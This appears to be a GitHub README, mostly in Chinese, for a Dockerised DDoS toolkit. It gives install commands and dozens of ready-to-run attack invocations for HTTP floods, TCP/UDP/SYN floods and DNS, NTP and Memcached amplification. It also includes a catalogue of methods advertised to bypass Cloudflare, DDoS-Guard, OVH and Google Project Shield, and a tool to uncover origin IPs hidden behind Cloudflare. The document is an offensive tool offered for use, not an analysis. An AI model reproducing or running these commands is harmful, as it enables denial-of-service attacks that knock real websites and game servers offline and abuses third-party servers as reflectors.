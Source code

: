 ### Ubuntu Docker 安装

	apt update -y && apt install curl -y && curl -fsSL https://test.docker.com -o test-docker.sh && sudo sh test-docker.sh

### ddos-layer7安装

	apt install git -y && git clone https://github.com/qq1521575701/ddos-layer7.git && cd ddos-layer7 && docker build -t ddos-layer7 . && docker run -itd --name ddos-layer7 --network host ddos-layer7:latest && rm -rf ~/ddos-layer7


### ddos-layer7容器

	docker exec -it ddos-layer7 /bin/bash

 
### 脚本的使用
	Proxy Types 0=All Proxy  1=HTTP  4=SOCKS4  5=SOCKS5
 
	python3 start.py <1=方法> <2=url> <3=socks_type> <4=线程> <5=proxylist> <6=rpc> <7=time> <8=debug=可选>

	python3 start.py <1=方法> <2=ip：port> <3=线程> <4=time> <5=debug=可选>

	python3 start.py <1=方法> <2=ip：port> <3=threads> <4=time> <5=socks_type> <6=proxylist> <7=debug=可选>

	python3 MHDDoS/start.py <1=方法> <2=ip：port> <3=threads> <4=time> <5=refelector file> <6=debug=optional>

 
#### ddos-layer4使用（放大）反射文件位置/root/files

	docker exec -it ddos-layer7 python3 start.py DNS ip:port 1 60 dns.txt &

	docker exec -it ddos-layer7 python3 start.py NTP ip:port 1 60 ntp.txt &

	docker exec -it ddos-layer7 python3 start.py MEM ip:port 1 60 meme.txt &


#### ddos-layer4代理

	docker exec -it ddos-layer7 python3 start.py MINECRAFT ip:port 1 120 0 null_proxy.txt &
 
	docker exec -it ddos-layer7 python3 start.py MCBOT ip:port 1 120 0 null_proxy.txt &
 
	docker exec -it ddos-layer7 python3 start.py TCP ip:port 1 120 0 null_proxy.txt &
 
	docker exec -it ddos-layer7 python3 start.py CONNECTION ip:port 1 120 0 null_proxy.txt &
 
	docker exec -it ddos-layer7 python3 start.py CPS ip:port 1 120 0 null_proxy.txt &






### ddos-layer7代理
	docker exec -it ddos-layer7 python3 start.py COOKIE url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py BYPASS url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py OVH url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py DGB url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py STRESS url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py DOWNLOADER url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py BOMB url 5 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py NULL url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py AVB url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py GET url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py CFB url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py EVEN url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py DYN url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py GSB url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py XMLRPC url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py SLOW url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py BOT url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py PPS url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py CFBUAM url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py APACHE url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py KILLER url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py RHEX url 0 1 null_proxy.txt 200 60 &
 
	docker exec -it ddos-layer7 python3 start.py STOMP url 0 1 null_proxy.txt 200 60 &









## Features And Methods

 * 💣 Layer7

   * <img src="https://img.icons8.com/cotton/344/domain.png" width="16" height="16" alt="get"> GET | GET 洪水
   * <img src="https://cdn0.iconfinder.com/data/icons/database-storage-5/60/server__database__fire__burn__safety-512.png" width="16" height="16" alt="post"> POST  | POST 洪水
   * <img src="https://static-00.iconduck.com/assets.00/ovh-icon-2048x2048-l4c3izvg.png" width="16" height="16" alt="ovh"> OVH | 绕过 OVH
   * <img src="https://cdn-icons-png.flaticon.com/512/1691/1691948.png" width="16" height="16" alt="ovh"> RHEX | 随机十六进制
   * <img src="https://cdn-icons-png.flaticon.com/512/4337/4337972.png" width="16" height="16" alt="ovh"> STOMP | 绕过 chk_captcha
   * <img src="https://cdn.iconscout.com/icon/premium/png-256-thumb/cyber-bullying-2557797-2152371.png" width="16" height="16" alt="stress"> STRESS | 发送带有高字节的 HTTP 数据包
   * <img src="https://pbs.twimg.com/profile_images/1351562987224641544/IKb4q_yd_400x400.jpg" width="16" height="16" alt="dyn"> DYN  | 一​​种使用随机子域的新方法
   * <img src="https://cdn-icons-png.flaticon.com/512/6991/6991643.png" width="16" height="16" alt="downloader"> DOWNLOADER | 一种缓慢读取数据的新方法
   * <img src="https://cdn2.iconfinder.com/data/icons/poison-and-venom-fill/160/loris2-512.png" width="16" height="16" alt="slow"> SLOW  | Slowlor 的旧 DDoS 方法
   * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-how-work-icon.png" width="16" height="16" alt="head"> HEAD | https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD
   * <img src="https://img.icons8.com/plasticine/2x/null-symbol.png" width="16" height="16" alt="null"> NULL | Null UserAgent 和 ...
   * <img src="https://i.pinimg.com/originals/03/2e/7d/032e7d0755cd511c753bcb6035d44f68.png" width="16" height="16" alt="cookie"> COOKIE | 随机 Cookie PHP'if (isset($_COOKIE))'
   * <img src="https://cdn0.iconfinder.com/data/icons/dicticons-files-folders/32/office_pps-512.png" width="16" height="16" alt="pps"> PPS | 仅'GET / HTTP/1.1\r\n\r\n'
   * <img src="https://cdn3.iconfinder.com/data/icons/internet-security-14/48/DDoS_website_webpage_bomb_virus_protection-512.png" width="16" height="16" alt="even"> EVEN | GET 方法带有更多标头
   * <img src="https://iili.io/HU9BC74.png" width="16" height="16" alt="googleshield"> GSB | Google Project Shield 绕过
   * <img src="https://seeklogo.com/images/D/ddos-guard-logo-CFEFCA409C-seeklogo.com.png" width="16" height="16" alt="DDoSGuard"> DGB  | DDoS Guard 绕过
   * <img src="https://i.imgur.com/bGL8qfw.png" width="16" height="16" alt="ArvanCloud"> AVB | Arvan 云旁路
   * <img src="https://iili.io/HU9BC74.png" width="16" height="16" alt="Google bot"> BOT | 类似 Google 机器人
   * <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a8/Apache_HTTP_Server_Logo_%282016%29.svg/1000px-Apache_HTTP_Server_Logo_%282016%29.svg.png" width="16" height="16" alt="Apache Webserver"> APACHE  | Apache 漏洞
   * <img src="https://icon-library.com/images/icon-for-wordpress/icon-for-wordpress-16.jpg" width="16" height="16" alt="wordpress expliot"> XMLRPC | WP XMLRPC 漏洞 (添加 /xmlrpc.php)
   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare"> CFB | CloudFlare 旁路
   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare UnderAttack Mode"> CFBUAM | CloudFlare 攻击模式绕过
   * <img src="http://iclouddnsbypass.com/wp-content/uploads/2015/02/iCloudDNSBypassServer.ico" width="16" height="16" alt="bypass"> BYPASS | 绕过常规 AntiDDoS
   * <img src="https://cdn-icons-png.flaticon.com/512/905/905568.png" width="16" height="16" alt="bypass"> BOMB  | 使用 codesenberg/bombardier 绕过
   * 🔪 KILLER  | 运行多个线程来杀死目标
   * 🧅 TOR  | 绕过洋葱网站


* 🧨 Layer4: 
  * <img src="https://raw.githubusercontent.com/kgretzky/pwndrop/master/media/pwndrop-logo-512.png" width="16" height="16" alt="tcp"> TCP | TCP 洪水绕过
  * <img src="https://styles.redditmedia.com/t5_2rxmiq/styles/profileIcon_snoob94cdb09-c26c-4c24-bd0c-66238623cc22-headshot.png" width="16" height="16" alt="udp"> UDP | UDP 洪水绕过
  * <img src="https://cdn-icons-png.flaticon.com/512/1918/1918576.png" width="16" height="16" alt="syn"> SYN | SYN 洪水
  * <img src="https://cdn-icons-png.flaticon.com/512/1017/1017466.png" width="16" height="16" alt="cps"> CPS | 使用代理打开和关闭连接
  * <img src="https://icon-library.com/images/icon-ping/icon-ping-28.jpg" width="16" height="16" alt="icmp"> ICMP  | ICMP 回显请求洪水（第 3 层）
  * <img src="https://s6.uupload.ir/files/1059643_g8hp.png" width="16" height="16" alt="connection"> CONNECTION | 使用代理打开活动连接
  * <img src="https://ia803109.us.archive.org/27/items/source-engine-video-projects/source-engine-video-projects_itemimage.png" width="16" height="16" alt="vse"> VSE | 发送 Valve Source 引擎协议
  * <img src="https://mycrackfree.com/wp-content/uploads/2018/08/TeamSpeak-Server-9.png" width="16" height="16" alt="teamspeak 3"> TS3  | 发送 Teamspeak 3 状态 Ping 协议Protocol
  * <img src="https://cdn2.downdetector.com/static/uploads/logo/75ef9fcabc1abea8fce0ebd0236a4132710fcb2e.png" width="16" height="16" alt="fivem"> FIVEM | 发送 FiveM 状态 Ping 协议
  * <img src="https://cdn.iconscout.com/icon/free/png-512/redis-4-1175103.png" width="16" height="16" alt="mem"> MEM  | Memcached 放大
  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="ntp"> NTP | NTP 放大
  * <img src="https://cdn-icons-png.flaticon.com/512/4712/4712139.png" width="16" height="16" alt="mcbot"> MCBOT  | Minecraft 机器人攻击
  * <img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/minecraft_logo_icon_168974.png" width="16" height="16" alt="minecraft"> MINECRAFT  | Minecraft 状态 Ping 协议
  * <img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/minecraft_logo_icon_168974.png" width="16" height="16" alt="minecraft pe"> MCPE | Minecraft PE 状态 Ping 协议
  * <img src="https://cdn-icons-png.flaticon.com/512/2653/2653461.png" width="16" height="16" alt="dns"> DNS  | DNS 放大
  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="chargen"> CHAR  | Chargen 放大
  * <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRct5OvjSCpUftyRMm3evgdPOa-f8LbwJFO-A&usqp=CAU" width="16" height="16" alt="cldap"> CLDAP  | Cldap 放大
  * <img src="https://help.apple.com/assets/6171BD2C588E52621824409D/6171BD2D588E5262182440A4/en_US/8b631353e070420f47530bf95f1a7fae.png" width="16" height="16" alt="ard"> ARD | Apple 远程桌面放大
  * <img src="https://www.tenforums.com/geek/gars/images/2/types/thumb__emote__esktop__onnection.png" width="16" height="16" alt="rdp"> RDP | 远程桌面协议放大

* ⚙️ 工具 - 运行
`
python3 start.py tools
`
  * 🌟 CFIP  | 查找由 Cloudflare 提供支持的网站的真实 IP 地址
  * 🔪 DNS  | 显示网站的 DNS 记录
  * 📍  TSSRV  | TeamSpeak SRV 解析器
  * ⚠  PING | PING 服务器
  * 📌 CHECK  | 检查网站状态
  * 😎 DSTAT  | 显示已接收的字节数、已发送的字节数及其数量

* 🎩 Other
  * ❌ STOP  | 停止一切攻击
  * 🌠 TOOLS | 控制台工具
  * 👑 HELP | 显示使用脚本
